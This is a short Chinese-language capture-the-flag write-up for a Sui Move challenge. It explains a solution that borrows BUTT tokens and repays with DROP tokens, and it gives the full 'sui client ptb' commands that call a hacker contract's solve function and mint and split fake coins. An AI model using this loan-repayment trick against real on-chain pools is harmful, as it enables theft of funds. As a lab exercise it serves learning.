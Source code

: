 # 解题思路:
借出 BUTT 代币,归还 DROP 代币

注意事项:
TOML 文件中要指定依赖的的 CTF 合约地址,同时把该合约源码放在 GitHub 上,或者在本地也行


# 完整 ptb 命令
```
sui client ptb \
--assign challenge_package @0x51549e2b6e9896c39c5e2060d3d1b2e9609d97324aaa9eb9093912694fff3517 \
--assign hacker_package @0xe007c665c9b1636a16e15f8a7f5e7c7fd55f24acece81148e031aaf24a810043 \
--assign create_pool_cap @0x1e7b824da8b92246f5d45ebd3abcc66f607ea4d5b8d8bbbd629e7f10512ed3be \
--assign mint_butt @0x182a783959bc300e5c8871ad270d319cc7b9a41b8e2d0db5f13d3bd10b8ca781 \
--assign mint_drop @0xb347c431206bddc4d148391f4e865192c10c6269296587ad9560811c3a360345 \
--move-call hacker_package::hacker::solve mint_butt mint_drop create_pool_cap
```

## ptb demo
```
sui client ptb \
--assign fake_butt_package_id @0xd729e8b7bd00ec790150eb35b3a514217b944e6917625985c91c70bbee513b73 \
--assign my_acc @0xc494732d09de23389dbe99cb2f979965940a633cf50d55caa80ed9e4fc4e521e \
--move-call fake_butt_package_id::fakebutt::mint_for_pool "<0xd729e8b7bd00ec790150eb35b3a514217b944e6917625985c91c70bbee513b73::fakebutt::FAKEBUTT>" @0x0da68f4ab54061c48aea4f8c139abe3e4f82feb33ea897345eef10f63affe53a \
--assign fakecoins \
--split-coins fakecoins "[1,2]" \
--assign splitfakecoins \
--transfer-objects "[fakecoins,splitfakecoins.0,splitfakecoins.1]" my_acc
```

## ptb 注意事项
- 1.中间值(如 fakecoins)不用 transfer 给某个人,只要接下来有处理逻辑(消耗or转移)即可
- 2.换行符号不需要空格